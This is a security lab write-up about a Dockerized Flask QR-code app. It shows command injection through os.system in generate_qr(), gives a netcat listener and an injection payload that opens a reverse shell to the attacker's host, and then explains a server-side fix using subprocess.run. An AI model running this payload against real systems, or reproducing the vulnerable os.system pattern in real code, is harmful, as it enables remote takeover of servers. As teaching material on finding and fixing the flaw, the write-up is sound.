

# Lab 4: Web Security (2)

## Running the application

- Run the following commands inside project directory `qrcode_app`

  ```bash
  docker-compose build
  docker-compose up
  ```

- Navigate to http://127.0.0.1:8080/ in the browser.


## Security analysis

- Let's take a look at the implementation, particularly the function `generate_qr()` in `app.py`

```python
@app.route("/generate_qr", methods=["POST"])
def generate_qr():
    data = request.form['data']
    file_hash = hashlib.md5(data.encode('utf-8')).hexdigest()
    os.system(f"qrencode -o /tmp/{file_hash}.png {data}")
    with open(f"/tmp/{file_hash}.png", "rb") as f:
        db_handler.insert_blob(file_hash=file_hash, file=f.read())
    return render_template('index.html', img_path=f"/get_qr/{file_hash}")
```

- `data` taken from the user `request` is unsanitized before being passed to `system()` call, allowing **Remote Code Execution**

  > Remote (Arbitrary) Code Execution is an attacker's ability to run any commands or code of the attacker's choice on a target machine or in a target process.


## Exploitation

We can run a server on the attacker machine and listen to some port (e.g., 9001) using

```bash
nc -lvnp 9001
```

Then submit the following payload into the text input to open a reverse shell on the server.

```bash
trash && nc 172.17.0.1 9001 -e /bin/sh
```

> - 172.17.0.1 is the attacker address, in our case, it's the default bridge `docker0` that connects docker containers to the host machine on which we are running the listener.
> - The command submits trash to the application but it also establishes a connection with the listening attacker server at port 9001, and runs `/bin/sh`.


Target hacked successfully :sunglasses:




## Mitigation

- Let's say someone reported the vulnerability and the smart engineer decided to fix it by placing extra JS lines that forbid special characters like `&` and so on.

- **Why this is a bad solution:**
  
  - Security checks shouldn't be done in client-side JS as the attacker still has control over it.
  - Attacker can still open a request interceptor (e.g., burp suite) and modify the POST request to include the payload, bypassing these checks.
  - The fix introduce a restriction on the user text, a normal user might still want special characters in their encoded QR Code.
  
- **Better solutions?**
  - Implement sanitization/checks on the server side (python code).
  
  - Use an existing and tested library (e.g., [python-qrcode](https://github.com/lincolnloop/python-qrcode)) instead of using `system()`
  
  - Use the lightweight `subprocess.run()` instead of `os.system()`
    - `subprocess.run()` will not spawn a new shell (just a process), so it won't run any extra unexpected commands or processes or environment variables initializations.
    - We can also use `qrencode -r FILENAME` to read data from file instead of appending it to the command.
    
    ```python
    from subprocess import run
    
    @app.route("/generate_qr", methods=["POST"])
    def generate_qr():
        data = request.form['data']
        file_hash = hashlib.md5(data.encode('utf-8')).hexdigest()
        with open(f"/tmp/{file_hash}.txt", "w") as f:
            f.write(data)
        run(["qrencode", "-o", f"/tmp/{file_hash}.png", "-r", f"/tmp/{file_hash}.txt"])
        with open(f"/tmp/{file_hash}.png", "rb") as f:
            db_handler.insert_blob(file_hash=file_hash, file=f.read())
        return render_template('index.html', img_path=f"/get_qr/{file_hash}")
    ```
    
    

## Repo with the fix applied

- https://github.com/Sh3B0/qrcode_app


